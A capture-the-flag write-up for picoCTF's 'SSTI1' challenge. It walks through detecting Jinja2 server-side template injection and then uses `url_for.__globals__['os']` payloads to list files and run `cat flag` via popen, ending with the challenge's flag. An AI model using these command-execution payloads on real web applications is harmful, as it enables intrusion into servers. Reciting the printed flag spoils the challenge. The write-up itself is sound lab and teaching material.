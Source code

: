 # SSTI1 - Server Side Template Injection Basic

## Challenge Information
- **Category:** Web Exploitation
- **Points:** Forgot
- **Description:** I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!
- **Hint:** Server Side Template Injection

## Initial Analysis
The challenge presents a web application that processes user input through templates. Initial testing revealed:
- `${7*7}` - Returns the literal string, suggesting not vulnerable to certain template engines
- `{{7*7}}` - Returns `49`, confirming template injection is possible
- `{{7*'7'}}` - Returns `7777777`, suggesting Python-like string multiplication

This behavior strongly indicates the use of a Jinja2, Twig, or other similar Python-based template engine.


## Vulnerability Overview
The application is vulnerable to Server Side Template Injection (SSTI) through the use of the `{{}}` syntax, which is commonly associated with Jinja2 templates in Python web applications.

## Exploitation Steps

1. **Basic Injection Test:**  
   `{{7*7}}` confirms code execution by returning `49`.

2. **String Operation Test:**  
   `{{7*'7'}}` demonstrates Python string multiplication by returning `7777777`.

3. **Directory Listing:**  
   `{{ url_for.__globals__['os'].listdir('.') }}` retrieves current directory files, returning:
   - `app.py`
   - `__pycache__`
   - `flag`
   - `requirements.txt`

4. **Payload Explanation:**  
   The payload accesses the template's global namespace to leverage the Python os module. This enables listing the directory and verifying access to key files.

5. **Flag Extraction:**  
   Executing `{{ url_for.__globals__['os'].popen('cat flag').read() }}` reads and returns:
   `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

## Solution
The exploitation chain demonstrates that the SSTI vulnerability can be used to access sensitive system files, culminating in flag extraction. Further object traversal may lead to more severe system compromises.

## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```

## Additional Notes
- The successful execution of `{{7*7}}` confirms code execution within the template
- The string multiplication behavior (`{{7*'7'}}`) specifically points to Python's template engine
- Next steps should focus on exploring object traversal to access system functionality

## References
- [PayloadsAllTheThings SSTI Guide](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/)